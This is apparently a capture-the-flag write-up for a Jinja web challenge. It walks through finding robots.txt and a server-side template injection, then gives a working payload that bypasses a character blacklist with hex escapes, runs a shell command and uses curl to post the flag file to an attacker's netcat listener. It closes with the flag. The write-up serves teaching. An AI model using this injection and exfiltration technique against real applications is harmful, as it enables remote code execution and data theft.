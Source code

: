 # RIaaS | NoobMaster and hacker_of_india
Just a note, The idea of ssti and robots.txt was given by hacker_of_india, I combined both of them and added a blacklist and some more stuff

- Description : Welcome to Random Input as a Service!
no source given
- Hint : Jinja's most common vulnreability

remote:http://167.99.154.216:3050
# Write up
Login page is lost, as soon you see the word robot the first thing in your mind is robots.txt, and that gives you /nottheflaglol
You will find SSTI in the input field(if you don't then using the hint you surely will) and looking at the source at / we can see that they have a blacklist
```html
<!-- We have a blacklist to keep those sneaky hackers away! -->
```
so know after some playing around you will find out that `{{`, `}}` and `_` is blacklisted and you also need curl in your input so this is our final payload - 
```{% if request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('curl http://<your_ip>:9001 -d @flag')['read']() == 'a' %} {% endif %}```
the \x5f for a `_` and if statement so that we can use `{%` instead of `{{`. but before inputting, do - 
```bash
nc -lvnp 9001
```
and once you input you will see the website is not loading but then check your terminal it will have the flag!
Very very useful resource:
https://hackmd.io/@Chivato/HyWsJ31dI
# Flag - n00bz{55t1_sur3_1s_4_h34d4ch3!}
